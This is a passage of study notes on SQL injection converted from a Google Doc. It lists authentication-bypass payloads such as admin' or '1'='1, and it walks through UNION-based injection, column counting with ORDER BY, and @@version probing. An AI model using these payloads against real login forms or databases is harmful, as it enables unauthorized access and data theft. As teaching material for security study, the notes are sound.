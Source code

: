 <p id="gdcalert17" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image17.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert18">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image17.png "image_tooltip")

* OR Injection
    * We need the query to always return true to bypass the authentication, to do this, we can abuse the OR operator
    * If we input
        * admin' or '1'='1
            * It always returns true
            * Executed query would be SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
    * What if we don't know any valid usernames?
        * SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something' or ‘1’=’1’;
        * WE input `something' or '1'='1`
        * Login as tom with no password
            * tom' or '1'='1
        * Login as user with id =5 
            * **' or id = 5 )#** 
* UNION clause injection
    * Combines both SELECT statements into one
    * Unions can only operate on SELECT statements with an equal number of columns
    * For un-even columns
        * We can use any string as our junk data
            * Can use SELECT “junk” from passwords;
            * SELECT 1 from passwords
    * Union injection
        * We need to detect number of columns
            * Using ORDER BY
                * ‘ order by 1–(Space)
                * Increase number until you get error
            * Using UNION
                * ' UNION select 1,2,3–(space)
                * Add numbers unless error
        * Location of injection	
            * Very common that not every column will be displayed back to the user
            * You have to change where to palace the injection 
            * To detect
                * ’ UNION select 1,@@version,3,4–(space)
* Database enumeration
    * MySQL fingerprinting
        * 

<p id="gdcalert18" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image18.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert19">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>

